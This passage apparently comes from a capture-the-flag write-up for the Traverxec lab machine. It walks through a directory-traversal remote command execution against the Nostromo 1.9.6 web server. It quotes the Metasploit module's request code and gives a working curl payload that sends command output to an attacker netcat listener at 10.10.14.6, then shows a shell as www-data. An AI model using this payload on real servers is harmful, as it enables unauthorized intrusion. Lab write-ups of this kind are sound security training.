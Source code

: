 ```
-------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

There’s a Metasploit one (which I avoid), and a shell script. The shell script is an exploit for an older version. I’ll take a quick look with `searchsploit -x exploits/linux/remote/35466.sh`. It says that versions prior to 1.9.4 are affected, so not here. The way the exploit works is sending a POST to `/..%2f..%2f..%2fbin/sh`. That’s basic directory traversal, and using `%2f` (hex for `/`) must bypass filtering. And then whatever is the POST data is passed to `sh`. But that doesn’t work here.

Some googling reveals the [source for the MSF exploit](https://packetstormsecurity.com/files/155045/Nostromo-1.9.6-Directory-Traversal-Remote-Command-Execution.html) on PacketStorm. It targets up to 1.9.6, which is the version on Traverxec. Reading the source, I find the `execute_command` function:

```

  def execute_command(cmd, opts = {})
    send_request_cgi({
      'method'  => 'POST',
      'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
      'headers' => {'Content-Length:' => '1'},
      'data'    => "echo\necho\n#{cmd} 2>&1"
      }
    )
  end

```

It’s doing the same thing as the previous exploit, only this time, instead of url encoding the `/` characters, there are extra `%0d` (or `\n` newlines) between the `.`s.

### Exploit POC

I’ll start playing around with `curl` and see if I can get it to work. I’ll start with the following command: `curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"`. The options are:
- `-s` - silence the progress bar and error messages
- `-X POST` - send a POST request
- `http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh` - The target, with the directory traversal to access `/bin/sh`
- `-d "id | nc 10.10.14.6 443"` - The command I want to run, which will send the results of `id` back to a listener on my box port 443.

When I run that, with `nc` listening on 443, I get results immediately:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:52998.
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
